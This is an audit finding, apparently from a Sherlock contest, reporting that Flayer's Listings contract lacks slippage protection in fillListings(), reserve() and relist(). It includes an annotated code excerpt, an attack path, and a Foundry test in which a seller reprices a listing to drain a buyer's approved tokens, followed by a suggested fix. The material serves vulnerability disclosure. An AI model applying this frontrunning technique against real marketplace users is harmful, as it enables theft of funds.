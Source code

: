 Tiny Plastic Hyena

High

# Lack of slippage protection in all 'taker' functions in Listings will lead to loss of user's funds

### Summary

The functions fillListings(), reserve(), and relist() all suffer from the same underlying issue. Whoever owns the listing for an NFT may at any time modify the listing and change the price that a user must pay to acquire it. Because of the lack of slippage protection in any of these functions, a buyer might see an NFT for an attractive price, attempt to purchase, reserve, or relist it, and unexpectedly pay any arbitrary amount of tokens the listing owner sets instead of what the buyer was anticipating to spend.

### Root Cause

In Listings.sol fillListings(), reserve(), and reslist() all make use of the function [getListingPrice()](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/Listings.sol#L826) to acquire the price of the NFTs to be purchased/reserved. However, when the price of said NFTs is acquired, there are no checks to make sure it is what the user may have thought it was. For example, in [fillListings() line 570](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/Listings.sol#L570) the totalPrice has the price of all NFTs bought from one owner added to itself. Later in the function at [line 587 the contract transfers the final totalPrice from the user with no safeguards.](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/Listings.sol#L587)

reserve() and relist() both use similar methods to get the price of whichever NFT is to be purchased and have a similar lack of any sort of slippage protection.

```solidity
    function fillListings(FillListingsParams calldata params) public nonReentrant lockerNotPaused {
        ...
            // If there is ERC20 left to be claimed, then deposit this into the escrow
            ownerReceives = _tload(FILL_PRICE) - (ownerIndexTokens * 1 ether * 10 ** _collectionToken.denomination());
            if (ownerReceives != 0) {
                _deposit(owner, address(_collectionToken), ownerReceives);
@>              totalPrice += ownerReceives; // @audit price to be paid set here
            }
        ...
        // Transfer enough tokens from the user to cover the `_deposit` calls made during
        // our fill loop.
        // @audit total price deducted from buyer with no slippage check
@>      _collectionToken.transferFrom(msg.sender, address(this), totalPrice);
```

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. A buyer sees an NFT they would like to purchase and creates a transaction to buy it, expecting a certain price
2. The seller modifies the listing - by chance or by malicious intent
3. The buyer, not seeing the change in price in time, sends the transaction
4. The buyer pays whatever the seller changed the price to, funds and allowance permitting

### Impact

The buyer suffers a loss up to the total amount of fTokens they posses and have approved the Listings contract to spend. The seller walks off with all of it.

### PoC

Please copy the following into ListingsTest in Listings.t.sol:

```solidity
function test_FrontrunFillListings() public {

        address payable frontrunner = payable(makeAddr("frontrunner"));
        uint tokenId = 5;
        uint16 initial_floor_multiple = 110;
        uint16 frontrun_floor_multiple = 300;

        address victim = makeAddr("victim");


        // Mint a mock erc to the frontrunner
        erc721a.mint(frontrunner, tokenId);

        // The frontrunner creates a listing for the nft
        vm.startPrank(frontrunner);
        erc721a.approve(address(listings), tokenId);

        _createListing({
            _listing: IListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(tokenId),
                listing: IListings.Listing({
                    owner: frontrunner,
                    created: uint40(block.timestamp),
                    duration: VALID_LIQUID_DURATION,
                    floorMultiple: initial_floor_multiple
                })
            })
        });
        vm.stopPrank();

        // The victim sees said listing, ensures that it is available and costs 1.1x the floor price
        vm.startPrank(victim);
        (bool isAvailable, uint price) = listings.getListingPrice(address(erc721a), tokenId);
        assertTrue(price == 1.1e18);
        assertTrue(isAvailable);

        // Deal the victim some tokens and approve listing contract to spend all
        deal(address(locker.collectionToken(address(erc721a))), victim, 3e18);
        locker.collectionToken(address(erc721a)).approve(address(listings), type(uint).max);

        // The victim constructs a transaction with the expectation of paying 1.1x the floor price
        uint[][] memory tokenIdsOut = new uint[][](1);
        tokenIdsOut[0] = new uint[](1);
        tokenIdsOut[0][0] = tokenId;
        IListings.FillListingsParams memory fillParams = IListings.FillListingsParams({
                collection: address(erc721a),
                tokenIdsOut: tokenIdsOut
            });
        vm.stopPrank();

        // The frontrunner opportunistically changes the price of the listing to take advantage
        // of the lack of slippage protections.
        vm.startPrank(frontrunner);
        locker.collectionToken(address(erc721a)).approve(address(listings), type(uint).max);
        IListings.ModifyListing[] memory modifyParams = new IListings.ModifyListing[](1);
        modifyParams[0] = IListings.ModifyListing({
            tokenId: tokenId,
            duration: VALID_LIQUID_DURATION,
            floorMultiple: frontrun_floor_multiple
        });
        listings.modifyListings(address(erc721a), modifyParams, true);

        // The victim submits the transaction and recieves the nft, unaware that the price has been modified
        vm.startPrank(victim);
        listings.fillListings(fillParams);

        // The victim is rinsed for whatever tokens have been approved to the listing contract
        assertEq(locker.collectionToken(address(erc721a)).balanceOf(victim), 0);
        assert(listings.balances(frontrunner, address(locker.collectionToken(address(erc721a)))) > 1.1e18);
    }
```

### Mitigation

Adding a maxPrice argument to the three functions mentioned and reverting if the total price is above that would solve the issue.